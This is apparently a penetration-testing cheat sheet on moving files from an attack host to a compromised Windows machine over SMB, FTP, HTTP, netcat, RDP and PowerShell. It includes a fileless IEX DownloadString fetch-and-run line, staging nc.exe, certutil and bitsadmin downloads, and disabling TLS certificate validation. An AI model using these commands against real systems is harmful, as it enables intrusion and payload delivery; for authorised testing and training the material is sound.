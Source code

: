 ```yaml
---
legal-banner: true
---
```


### **CONNECTING TO AN SMB SHARE USING POWERSHELL**

1.  Set Up an SMB Server with Credentials  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Convert Password to Secure String  
    `$pass = convertto-securestring 'hackfast' -AsPlainText -Force`
3.  Create Credential Object  
    `$cred = New-Object System.Management.Automation.PSCredential('hackfast',$pass)`
4.  Map the Network Drive  
    `New-PSDrive -Name hackfast -PSProvider FileSystem -Credential $cred -Root \\[IP-ADDRESS]\hackfast`
5.  Navigate to the Mapped Drive  
    `cd hackfast:`

### **DOWNLOADING FILES VIA SMB (NO CREDENTIALS)**

1.  Set Up an SMB Server  
    `sudo impacket-smbserver share -smb2support .`
2.  Download a File from SMB Server:  
    `copy \\[IP-ADRESS]\share\file.txt .`

### **DOWNLOADING FILES VIA SMB (WITH CREDENTIALS)**

3.  Configure SMB Server Using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
4.  Configure SMB Server Using smbserver.py  
    `smbserver.py hackfast . -smb2support -username hackfast -password hackfast`
5.  Map a Network Drive  
    `net use z: \\[IP-ADRESS]\hackfast /user:hackfast hackfast`
6.  Copy a File from the Mapped Drive  
    `copy z:\file.txt .`

### **DOWNLOADING FILES VIA FTP**

1.  Start an FTP Server:  
    `sudo python3 -m pyftpdlib --port 21`
2.  Downloading a File Using PowerShell  
    `(New-Object Net.WebClient).DownloadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Users\Public\file.txt')`
3.  Automate FTP Downloads with Command File:  
    
    ![](../../img/Windows-Environment/2.png)

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 2**

1.  Start a HTTP server:  
    `python -m SimpleHTTPServer 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 3**

1.  Start a HTTP server:  
    `python3 -m http.server 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING PHP**

1.  Start a HTTP server:  
    `php -S 0.0.0.0:8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING RUBY**

1.  Start a HTTP Server:  
    `ruby -run -e httpd . -p 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN APACHE SERVER AND FILE DOWNLOAD**

1.  Place File into the Apache Web Directory:  
    `cp nc.exe /var/www/html`
2.  Start the Apache Server:  
    `sudo systemctl start apache2`
3.  Downloading a File via Web Browser or PowerShell  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]/file.txt -OutFile file.txt`

### **ENCODING AND DECODING FILE WITH BASE64**

1.  Generate MD5 checksum:  
    `md5sum file.txt`
2.  Encoding File Content to Base64  
    `cat file.txt | base64 -w 0; echo`
3.  Decoding Base64 Content on Windows  
    `[IO.File]::WriteAllBytes("C:\Temp\file.txt", [Convert]::FromBase64String("[BASE64-STRING]"))`
4.  Verify the MD5 checksum of the decoded file:  
    `Get-FileHash C:\Temp\file.txt -Algorithm MD5`

### **DOWNLOADING FILES FROM A REMOTE SESSION**

1.  Create a PowerShell Remoting session:  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy the file from the remote session to your local machine:  
    `Copy-Item -Path "C:\Users\Administrator\Desktop\file.txt" -Destination C:\ -FromSession $Session`

### **FILE TRANSFERS WITH NETCAT AND NCAT**

1.  Downloading a File (Receiving)
    - Using Netcat On the Compromised Machine (Listening):  
        `nc -l -p 8000 > received_file.exe`
2.  On the Attack Host (Sending):
    - Using Netcat  
        `nc -q 0 [IP_ADRESS] 8000 < file.exe`
    - Using Ncat  
        `ncat --send-only [IP_ADRESS] 8000 < file.exe`

### **DOWNLOADING FILES VIA RDP (LINUX TO WINDOWS)**

1.  Using rdesktop for File Transfer  
    `rdesktop [IP-ADRESS] -d [DOMAIN] -u [USERNAME] -p '[PASSWORD]' -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp for File Transfer  
    `xfreerdp /v:[IP-ADRESS] /d:[DOMAIN] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`
3.  Accessing Mounted Directory in RDP Session  
    Connect to `\\tsclient\` within the RDP session to transfer files to and from the mounted directory.

### **POWERSHELL WEB DOWNLOADS**

1.  Downloading Files Using DownloadFile Method  
    `(New-Object Net.WebClient).DownloadFile('http://[IP-ADRESS]:8000/file.ps1','C:\Temp\file.ps1')`
    
2.  Using DownloadFileAsync for Non-Blocking Downloads  
    `(New-Object Net.WebClient).DownloadFileAsync('http://[IP-ADRESS]:8000/file.ps1', 'C:\Temp\file.ps1')`
    
3.  Executing Fileless Downloads Using DownloadString  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADRESS]:8000/file.ps1')`
    
4.  Downloading File Using Invoke-WebRequest  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -OutFile C:\Temp\file.ps1`
    
5.  Bypassing Internet Explorer Configuration  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -UseBasicParsing`
    
6.  Bypassing SSL/TLS Secure Channel Issues:  
    `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
